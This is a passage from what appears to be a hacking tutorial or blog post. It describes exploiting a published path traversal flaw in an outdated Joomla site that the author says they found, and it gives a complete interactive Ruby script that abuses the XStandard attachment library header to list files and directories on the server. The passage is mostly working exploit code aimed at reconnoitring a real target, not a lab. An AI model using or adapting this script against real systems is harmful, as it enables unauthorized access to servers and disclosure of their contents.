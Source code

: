 
## Path Traversal


One of the sites I found was running an old version of Joomla, which has a [published](http://www.securityfocus.com/bid/33143/info) [relative path traversal vulnerability](http://cwe.mitre.org/data/definitions/23.html) that will let us view the contents of any folders on the server that the site has access to. Remember: every little bit of information we can get helps. Even though this vulnerability can't directly get us what we're after, it can lead us to information that can.

There is public exploit code available, but we'll want to poke around various directories interactively, so it's worthwhile to our own little script to help us:

~~~ ruby
require 'uri'; require 'net/http'; require 'rexml/document'

URL = URI.parse('http://joomla.example.net/plugins/editors/xstandard/attachmentlibrary.php')
cur_path = './'; cache = {}

loop do
  unless cache.has_key?(cur_path)
    puts 'Fetching...'
    req = Net::HTTP::Get.new(URL.path)
    req.add_field('X_CMS_LIBRARY_PATH', cur_path)
    res = Net::HTTP.start(URL.host, URL.port) {|http| http.request(req) }
    doc = REXML::Document.new(res.body)
    cache[cur_path] = doc
  end

  doc = cache[cur_path]

  puts "FILES: #{cur_path}";
  doc.elements.each('library/objects/object') do |el|
    size = date = nil
    el.elements.each('props/prop') do |prop|
      size = prop.elements['value'].text if prop.elements['name'].text == 'size'
      date = prop.elements['value'].text if prop.elements['name'].text == 'date'
    end
    puts "  #{el.elements['objectName'].text} (#{size} bytes, modified #{date})"
  end

  puts "DIRECTORIES: #{cur_path}"
  dirs = ['..'] +
    doc.elements.to_a('library/containers/container').
    map{|e|e.elements['objectName'].text}
  dirs.each_with_index { |v, i| puts "  #{i+1}) #{v}/" }

  print 'path> '; n = STDIN.readline
  if(n.to_i == 0); cur_path = n.chomp
  elsif(n.to_i == 1 && File.basename(cur_path) =~ /[^.]/)
    cur_path = File.dirname(cur_path) + '/'
  else; cur_path += dirs[n.to_i - 1] + '/'; end
end
~~~
